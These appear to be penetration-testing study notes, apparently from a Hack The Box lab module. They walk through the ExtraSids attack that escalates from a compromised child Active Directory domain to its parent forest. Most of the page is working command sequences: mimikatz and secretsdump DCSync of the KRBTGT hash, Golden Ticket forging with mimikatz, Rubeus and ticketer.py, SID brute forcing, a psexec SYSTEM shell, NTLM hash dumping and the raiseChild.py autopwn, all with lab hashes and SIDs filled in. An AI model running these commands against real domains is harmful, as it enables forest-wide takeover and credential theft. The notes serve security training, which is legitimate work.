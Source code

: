 # Attacking Domain Trusts - Child -> Parent Trusts 
## Windows
### ExtraSids Attack - Mimikatz
This attack allows for the compromise of a parent domain once the child domain has been compromised. Within the same AD forest, the sidHistory property is respected due to a lack of SID Filtering protection. SID Filtering is a protection put in place to filter out authentication requests from a domain in another forest across a trust. Therefore, if a user in a child domain that has their sidHistory set to the Enterprise Admins group (which only exists in the parent domain), they are treated as a member of this group, which allows for administrative access to the entire forest. In other words, we are creating a Golden Ticket from the compromised child domain to compromise the parent domain. In this case, we will leverage the SIDHistory to grant an account (or non-existent account) Enterprise Admin rights by modifying this attribute to contain the SID for the Enterprise Admins group, which will give us full access to the parent domain without actually being part of the group.

To perform this attack after compromising a child domain, we need the following:

- The KRBTGT hash for the child domain
- The SID for the child domain
- The name of a target user in the child domain (does not need to exist!)
- The FQDN of the child domain.
- The SID of the Enterprise Admins group of the root domain.
- With this data collected, the attack can be performed with Mimikatz.
Now we can gather each piece of data required to perform the ExtraSids attack. First, we need to obtain the NT hash for the KRBTGT account, which is a service account for the Key Distribution Center (KDC) in Active Directory. The account KRB (Kerberos) TGT (Ticket Granting Ticket) is used to encrypt/sign all Kerberos tickets granted within a given domain. Domain controllers use the account's password to decrypt and validate Kerberos tickets. The KRBTGT account can be used to create Kerberos TGT tickets that can be used to request TGS tickets for any service on any host in the domain. This is also known as the Golden Ticket attack and is a well-known persistence mechanism for attackers in Active Directory environments. The only way to invalidate a Golden Ticket is to change the password of the KRBTGT account, which should be done periodically and definitely after a penetration test assessment where full domain compromise is reached.

Since we have compromised the child domain, we can log in as a Domain Admin or similar and perform the DCSync attack to obtain the NT hash for the KRBTGT account.

#### Obtaining the KRBTGT Account's NT Hash using Mimikatz
```
mimikatz.exe
mimikatz # lsadump::dcsync /user:LOGISTICS\krbtgt
``` 

#### Obtaining Enterprise Admins Group's SID using Get-DomainGroup
```
PS > Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid
```

- The KRBTGT hash for the child domain: 9d765b482771505cbe97411065964d5f
- The SID for the child domain: S-1-5-21-2806153819-209893948-922872689
- The name of a target user in the child domain (does not need to exist to create our Golden Ticket!): We'll choose a fake user: hacker
- The FQDN of the child domain: LOGISTICS.INLANEFREIGHT.LOCAL
- The SID of the Enterprise Admins group of the root domain: S-1-5-21-3842939050-3880317879-2865463114-519

#### Creating a Golden Ticket with Mimikatz
```
PS > mimikatz.exe

mimikatz # kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt
```

#### ExtraSids Attack - Rubeus
```
PS >  .\Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689  /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /user:hacker /ptt
```
#### Performing a DCSync Attack
```
mimikatz # lsadump::dcsync /user:INLANEFREIGHT\lab_adm /domain:INLANEFREIGHT.LOCAL
```

## Linux
### Performing DCSync with secretsdump.py
```
$ secretsdump.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 -just-dc-user LOGISTICS/krbtgt
```

Next, we can use lookupsid.py from the Impacket toolkit to perform SID brute forcing to find the SID of the child domain. In this command, whatever we specify for the IP address (the IP of the domain controller in the child domain) will become the target domain for a SID lookup. The tool will give us back the SID for the domain and the RIDs for each user and group that could be used to create their SID in the format DOMAIN_SID-RID. For example, from the output below, we can see that the SID of the lab_adm user would be S-1-5-21-2806153819-209893948-922872689-1001.

### Performing SID Brute Forcing using lookupsid.py
```
$ lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 

$ lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 | grep "Domain SID"
```

Next, we can rerun the command, targeting the INLANEFREIGHT Domain Controller (DC01) at 172.16.5.5 and grab the domain SID S-1-5-21-3842939050-3880317879-2865463114 and attach the RID of the Enterprise Admins group. Here is a handy list of well-known SIDs.

### Grabbing the Domain SID & Attaching to Enterprise Admin's RID
```
$ lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.5 | grep -B12 "Enterprise Admins"
```

Next, we can use ticketer.py from the Impacket toolkit to construct a Golden Ticket. This ticket will be valid to access resources in the child domain (specified by -domain-sid) and the parent domain (specified by -extra-sid).

```
$ ticketer.py -nthash 9d765b482771505cbe97411065964d5f -domain LOGISTICS.INLANEFREIGHT.LOCAL -domain-sid S-1-5-21-2806153819-209893948-922872689 -extra-sid S-1-5-21-3842939050-3880317879-2865463114-519 hacker
```


The ticket will be saved down to our system as a credential cache (ccache) file, which is a file used to hold Kerberos credentials. Setting the KRB5CCNAME environment variable tells the system to use this file for Kerberos authentication attempts.

### Setting the KRB5CCNAME Environment Variable
```
$ export KRB5CCNAME=hacker.ccache 
```

### Getting a SYSTEM shell using Impacket's psexec.py
```
$ psexec.py LOGISTICS.INLANEFREIGHT.LOCAL/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5
```

### Dump NTLM Hashes
```
$ secretsdump.py hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -just-dc-ntlm -just-dc-user bross
```

### Performing the Attack with raiseChild.py
```
$ raiseChild.py -target-exec 172.16.5.5 LOGISTICS.INLANEFREIGHT.LOCAL/htb-student_adm
```

Though tools such as raiseChild.py can be handy and save us time, it is essential to understand the process and be able to perform the more manual version by gathering all of the required data points. In this case, if the tool fails, we are more likely to understand why and be able to troubleshoot what is missing, which we would not be able to if blindly running this tool. In a client production environment, we should always be careful when running any sort of "autopwn" script like this, and always remain cautious and construct commands manually when possible. Other tools exist which can take in data from a tool such as BloodHound, identify attack paths, and perform an "autopwn" function that can attempt to perform each action in an attack chain to elevate us to Domain Admin (such as a long ACL attack path). I would recommend avoiding tools such as these and work with tools that you understand fully, and will also give you the greatest degree of control throughout the process.

